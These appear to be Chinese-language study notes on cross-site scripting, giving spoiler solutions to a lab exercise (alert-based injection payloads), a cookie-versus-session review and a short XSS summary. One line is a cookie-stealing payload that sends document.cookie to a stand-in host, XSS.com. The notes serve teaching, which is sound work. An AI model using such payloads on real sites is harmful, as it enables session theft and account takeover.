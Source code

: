 
### lab2
:::spoiler 解法
```
1.
<button onclick="alert('Allow')"><button onclick="alert('Allow')">Click</button>
2.
javascript:alert(1)
3.' onmouseover='alert(1)

```
> 失敗的嘗試
```
' onmouse='alert(1)
```
:::


### 把這串丟到FB看看 (?


alert(document.cookie)

## 複習一下

### Cookies
- 儲存在使用者端的文檔
- 用來解決 HTTP 協定的網頁互動問題
- 會隨著瀏覽器寄送請求時一併送出
- cookie過期與否，可以在cookie生成的時候設定

### Session
- 儲存在伺服器端的文字檔案
- 初次建立時會拿到ID (類似cookies)
- 往後伺服器的使用者資料全靠這組ID去取得
- Session過期與否取決於伺服器的設定


### Session	Cookies
- 存在Server端	
	- 安全性相對高	
- 存在你的電腦裡
	- 安全性相對低
- ~~cookie小偷~~
`
document.location.href="https://XSS.com"+btoa(document.cookie)
`


### 小總結
- XSS
    - 用各種手段對網站插入惡意語句
    - 發生原因通常是沒對使用者的輸入進行過濾
- 常見目的
    - 偷你資料(Cookies, Session)
    - 騙你到假網站
    - 偷你身分(拿你帳號亂發郵件)
